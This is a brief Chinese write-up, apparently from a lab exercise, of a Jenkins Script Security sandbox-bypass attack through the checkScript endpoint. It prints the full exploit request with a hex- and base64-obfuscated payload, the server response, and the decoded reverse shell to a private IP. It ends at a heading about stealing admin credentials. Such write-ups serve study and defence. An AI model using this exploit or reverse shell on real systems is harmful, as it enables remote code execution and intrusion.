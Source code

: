 ```
GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=public+class+x%7Bpublic+x%28%29%7Bnew+String%28%2262617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d%22.decodeHex%28%29%29.execute%28%29%7D%7D HTTP/1.1
Host: 192.168.110.2:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.27.1


HTTP/1.1 200 OK
Date: Sun, 08 Jun 2025 17:51:04 GMT
X-Content-Type-Options: nosniff
Content-Type: text/html;charset=utf-8
Content-Length: 6
Server: Jetty(9.4.z-SNAPSHOT)

<div/>
```

`GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=...
`

这个 URL 是 Jenkins Script Console 中插件的参数验证接口。

/descriptorByName/.../checkScript 是 Jenkins 用来检测 Groovy 脚本合法性的接口（一般用于 UI 检查，不应被滥用执行恶意代码）。

sandbox=True 表示在沙箱中执行（但此漏洞可以逃逸沙箱或绕过限制）。

value=public class x{ public x() { ... } } 传递的是一段 Java/Groovy 类定义

沙箱中执行的内容是`new String("62617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d".decodeHex()).execute()
`
Hex解码后再base64解码就是标准的反弹shell
`bash -i >& /dev/tcp/192.168.56.104/12333 0>&1
`


#### 获得用户名和密码的管理员脚本攻击
